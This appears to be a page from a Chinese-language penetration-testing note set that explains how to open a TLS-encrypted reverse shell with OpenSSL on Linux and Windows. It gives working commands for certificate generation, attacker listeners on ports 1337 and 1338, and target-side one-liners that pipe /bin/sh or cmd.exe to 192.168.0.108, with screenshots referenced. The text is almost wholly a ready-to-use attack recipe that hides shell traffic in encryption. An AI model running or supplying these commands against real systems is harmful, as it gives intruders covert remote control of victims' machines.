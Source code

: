 	生成证书
	>openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
![image](/assets/Pentest_Note/master/img/189.png)
 #### Linux
	监听
	>openssl s_server -quiet -key key.pem -cert cert.pem -port 1337
![image](/assets/Pentest_Note/master/img/190.png)

	靶机执行
	>mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.108:1337 > /tmp/s; rm /tmp/s
![image](/assets/Pentest_Note/master/img/191.png)

	此方式使用TLS1.2 协议对通信进行加密
 #### Windows
	攻击机需监听2个端口，一个端口发送命令，一个端口接收回显
	发送
	>openssl s_server -quiet -key key.pem -cert cert.pem -port 1337
	接收
	>openssl s_server -quiet -key key.pem -cert cert.pem -port 1338
	靶机执行
	>openssl s_client -quiet -connect 192.168.0.108:1337|cmd.exe|openssl s_client -quiet -connect 192.168.0.108:1338
![image](/assets/Pentest_Note/master/img/192.png)
![image](/assets/Pentest_Note/master/img/193.png)
![image](/assets/Pentest_Note/master/img/194.png)